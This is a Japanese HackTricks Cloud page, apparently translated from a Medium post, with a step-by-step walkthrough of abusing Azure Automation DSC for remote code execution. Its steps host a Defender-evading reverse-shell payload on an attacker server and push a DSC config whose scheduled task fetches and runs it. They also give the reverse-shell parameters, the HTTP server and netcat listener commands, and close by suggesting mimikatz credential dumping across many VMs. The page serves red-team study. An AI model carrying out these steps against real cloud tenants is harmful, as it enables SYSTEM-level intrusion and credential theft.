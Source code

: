 # Az - State Configuration RCE

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をご覧ください！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをご覧ください
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォロー**してください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有してください。

</details>

**この投稿は** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe) **からコピーされました**

### リモートサーバー（C2）インフラの準備 <a href="#f0fa" id="f0fa"></a>

リモートサーバー「40.84.7.74」、つまりKaliボックスから、NishangのInvoke-PowerShellTcp.ps1ペイロードの簡略版をホストします。ペイロード名は「RevPS.ps1」です。Windows DefenderによってNishangスクリプトが何らかの理由で削除されないようにするため（もしかしたらファイルをディスクにドロップしたいかもしれません）、Defenderを回避することができる軽量版がこちらにあります：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1)。これはKaliボックス上のシンプルなPython Simple Serverによってホストされます。

### ステップ1 — ファイルの作成 <a href="#89de" id="89de"></a>

別のDSC構成ファイルを作成する必要があります。テンプレートはこちらからダウンロードできます：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1)。この構成ファイルは、以前に使用した同じファイル書き込み機能を使用します。今回は、リモートサーバーからペイロードをダウンロードして実行するコードが含まれています。また、_ComputerManagementDsc_ モジュールから利用可能なスケジュールタスク機能を使用しています。スケジュールタスク機能は、後で実行とSYSTEM権限の取得において重要な役割を果たします。

VMに構成を公開するために使用されるスクリプトもダウンロードします。こちらにあります：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1)。

これらのファイルはテンプレートとして機能します。**使用している変数名やパラメーターを記入する必要があります**。これには、リソース名、ファイルパス、使用している外部サーバー/ペイロード名が含まれます。コード内のコメントを参照してください。

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ステップ2 — 構成ファイルの圧縮 <a href="#c2c2" id="c2c2"></a>

2つのファイルを作成したら、**「reverse\_shell\_config.ps1」** ファイルをzip圧縮して、ストレージアカウントに送信できるようにします
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### ステップ 3 — ストレージコンテキストの設定とアップロード <a href="#bed9" id="bed9"></a>

再度、私のストレージアカウントのコンテキストを設定します。これは既に完了しています。私はすでに '**azure-pentest**' という名前のコンテナを持っているので、ここに公開します：
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### ステップ 4 — Kali Box の準備 <a href="#20fb" id="20fb"></a>

Kali box では、_wget_ を使用して PowerShell ペイロードを簡単に取得できます。生のリバースシェルスクリプトはこちらにあります: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1)。
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
```markdown
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

リバースシェルスクリプトを編集し、実行された際にWindows VMが接続先を知るために、私たちのパラメータを追加する必要があります。私の場合、以下を追加しました：
```
```
RevPShell -Reverse 40.84.7.73 443
```
### ステップ 5 — 設定ファイルの公開 <a href="#9ad6" id="9ad6"></a>

次に、設定ファイルを実行します。私は視覚的にわかりやすいようにデスクトップに公開するように設定していますが、ほぼどこにでも公開できます。数分後、リバースシェルスクリプトが公開されたことがわかります！

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ステップ 6 — ペイロードのホストとリスナーの設定 <a href="#c55f" id="c55f"></a>

設定を公開したら、ペイロードをホストするためにポート80でPython SimpleHTTPServerを同時に開始し、接続をキャッチするためにnetcatリスナーを設定します：
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
スケジュールされたタスクが実行され、ペイロードが取得され、**SYSTEM** レベルの権限でメモリ内で実行されたことが確認できます！

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### まとめ <a href="#1ec2" id="1ec2"></a>

これで多くの可能性が開かれました。**SYSTEM** としてシェルを実行しているので、mimikatzを使ってクレデンシャルをダンプすることができます（クラウドリソースのEDRの成熟度によってはリスクがあるかもしれません）。クレデンシャルをダンプすると、これらを異なるリソース間で再利用できる可能性が高くなります。最後に、重要なポイントは、これを1つのVMに限定するのではなく、複数のVMにこの設定を適用する可能性があるということです。

このノートで、Azure Automation DSCの冒険は終わりです！楽しんで、多くを学び、独自の創造性でさらに拡張していくことを願っています。

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの**会社を広告したい、または**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**する。
* [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
